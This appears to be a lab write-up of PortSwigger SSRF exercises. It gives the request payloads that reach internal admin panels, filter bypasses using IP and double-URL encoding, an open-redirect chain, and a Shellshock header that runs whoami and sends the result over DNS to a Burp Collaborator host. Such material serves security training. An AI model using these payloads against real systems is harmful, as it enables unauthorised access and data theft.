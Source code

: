 ```yaml
---
description: https://portswigger.net/web-security/ssrf
---
```


# Server-side request forgery (SSRF)

### Lab: Basic SSRF against the local server

This lab has a stock check feature which fetches data from an internal system.

```
POST /product/stock
...
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

```
POST /product/stock
...
stockApi=http%3a//localhost/admin
-------------------
POST /product/stock
...
stockApi=http%3a//localhost/admin/delete?username=carlos
```

### Lab: Basic SSRF against another back-end system

This lab has a stock check feature which fetches data from an internal system.

```
POST /product/stock HTTP/1.1
...
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

→ Sniper Attack with numbers

```
POST /product/stock HTTP/1.1
...
stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fadmin
----------------------------
POST /product/stock HTTP/1.1
...
stockApi=http%3A%2F%2F192.168.0.182%3A8080%2Fadmin
Response:
<a href="/http://192.168.0.182:8080/admin/delete?username=carlos">Delete</a>
----------------------------
POST /product/stock HTTP/1.1
...
stockApi=http%3A%2F%2F192.168.0.182%3A8080%2Fadmin/delete?username=carlos
```

### Lab: SSRF with blacklist-based input filter

This lab has a stock check feature which fetches data from an internal system. The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

```
POST /product/stock
...
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

* `localhost - blocked`
* `127.0.0.1 - blocked`
* `2130706433 - bypassed`
* `017700000001 - bypassed`
* `127.1 - bypassed`
* `admin - blocked`
* `%61%64%6d%69%6e - admin url all chars encoded - blocked`
* `%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65 - admin url double all chars encoded - bypassed`

```
POST /product/stock
...
stockApi=http%3A%2F%2F127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

### Lab: SSRF with whitelist-based input filter

This lab has a stock check feature which fetches data from an internal system. The developer has deployed an anti-SSRF defense you will need to bypass.

```
POST /product/stock
...
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

`Error → "External stock check host must be stock.weliketoshop.net"`

```
POST /product/stock
...
stockApi=http%3A%2F%2Flocalhost:80%25%32%33@stock.weliketoshop.net
-------------------
POST /product/stock
...
stockApi=http%3A%2F%2Flocalhost:80%25%32%33@stock.weliketoshop.net/admin
-------------------
POST /product/stock
...
stockApi=http%3A%2F%2Flocalhost:80%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
```

`https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf`

### Lab: SSRF with filter bypass via open redirection vulnerability

This lab has a stock check feature which fetches data from an internal system. The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

```
GET /product/nextProduct?currentProductId=3&path=/product?productId=4 HTTP/1.1
```

```
POST /product/stock
...
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
-------------------
POST /product/stock
...
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

### Lab: Blind SSRF with out-of-band detection

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

Collaborator address: pxq0vdgf9ukiw23j0koup8bsbjh95y.burpcollaborator.net

```
GET /product?productId=3 HTTP/1.1
...
Referer: http://pxq0vdgf9ukiw23j0koup8bsbjh95y.burpcollaborator.net
...
```

### Lab: Blind SSRF with Shellshock exploitation

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

Collaborator address: hdysb5w7pm0acujbgc4m50rkrbx2lr.burpcollaborator.net

Shellshock: [https://www.exploit-db.com/exploits/34765](https://www.exploit-db.com/exploits/34765)

→ Sniper Attack - Number 0-255

```
GET /product?productId=20 HTTP/1.1
...
User-Agent: () { :; }; /bin/bash -c "nslookup $(whoami).hdysb5w7pm0acujbgc4m50rkrbx2lr.burpcollaborator.net"
...
Referer: https://192.168.0.§1§:8080/
...
```

The Collaborator server received a DNS lookup of type AAAA for the domain name peter-rmQazs.hdysb5w7pm0acujbgc4m50rkrbx2lr.burpcollaborator.net.
